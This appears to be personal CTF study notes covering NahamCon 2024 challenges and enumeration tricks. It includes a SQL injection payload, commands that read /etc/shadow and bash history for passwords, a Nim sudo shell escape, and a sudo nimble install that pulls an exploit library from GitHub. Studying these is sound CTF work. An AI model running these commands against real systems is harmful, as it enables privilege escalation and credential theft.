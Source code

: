 # This is a file i'll include things i didn't know and or find after reading some write-ups

## apps

- `https://play.google.com/store/apps/details?id=com.arara.q`

## sql injections

- ' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--

## Privilege Escalation

### cat .bash_history

This might show what someone has already done.
Maybe shows passwords from sshpass.

### cat /etc/passwd | grep sh

This might show some other users, and we grep to what users have shells.

### sudo -l

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using "sudo curl 127.0.0.1:8000/health-check file:///etc/shadow".
Then we can crack the hashes of the machine and pawn it.

See `https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md`

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with `sudo -l` and we can see we can use `sudo nimble install *` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See `https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous`

## extra s

Very specific case but still interesting.

### Make Self Extracting Sccript

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
`tail -n 75 self_extractor > result`

### Iframe bruteforcing

<code type="javascript">
for (let index=0; index < 15; index++ ) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    document.write(`${index}: ${url}`);
    document.write(`<iframe sandbox style="width: 100%" src="${url}"></iframe>`);
}
</code>

### Fetch Enumerating

<code>
for (let index = 0; index < 200; index++) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    await fetch(url).then(r => {
        if(r.status!=404) console.log(url);
    });
}
</code>

### Curl Enumerating

`curl --silent --fail "https://example.com/[0-10]" -o "out/post_#1.txt" -s -w '%{url} %{http_code}\n`
